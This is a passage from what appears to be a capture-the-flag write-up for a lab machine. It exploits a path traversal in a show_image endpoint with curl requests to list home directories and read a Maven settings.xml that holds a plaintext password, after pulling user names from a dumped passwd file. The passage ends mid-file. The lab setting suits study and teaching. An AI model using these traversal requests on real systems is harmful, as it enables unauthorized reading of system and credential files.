 ```
_laurel:x:997:996::/var/log/laurel:/bin/false
```

We can extract users form this file !
```
cat ./content/passwd | grep "bash" | awk -F ":" '{print $1}'
```

There are 3 users !
```
root
frank
phil
```

Let's find out our present working director !
```
curl -s -X GET "http://10.10.11.204:8080/show_image?img=blablabl" | jq
```

The return output is the following !
```
{
  "timestamp": "2023-07-09T15:47:24.801+00:00",
  "status": 500,
  "error": "Internal Server Error",
  "message": "URL [file:/var/www/WebApp/src/main/uploads/blablabl] cannot be resolved in the file system for checking its content length",
  "path": "/show_image"
}
```
> This indicates that we are in the `/var/www/WebApp/src/main/uploads/` directory!


Let's delve into the `home` directory, starting with Frank
```
curl -s -X GET "http://10.10.11.204:8080/show_image?img=../../../../../../home/frank"
```

In the output listing, there's a `.m2` directory
```
.bash_history
.bashrc
.cache
.gnupg
.local
.m2
.profile
.ssh
```

Let's take a look at it !
```
curl -s -X GET "http://10.10.11.204:8080/show_image?img=../../../../../../home/frank/.m2"
```

We have a ```settings.xml``` file ! let's check its content !
```
<?xml version="1.0" encoding="UTF-8"?>
<settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema
-instance"
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/mave
n-4.0.0.xsd">
  <servers>
    <server>
      <id>Inject</id>
      <username>phil</username>
      <password>DocPhillovestoInject123</password>
      <privateKey>${user.home}/.ssh/id_dsa</privateKey>
      <filePermissions>660</filePermissions>
```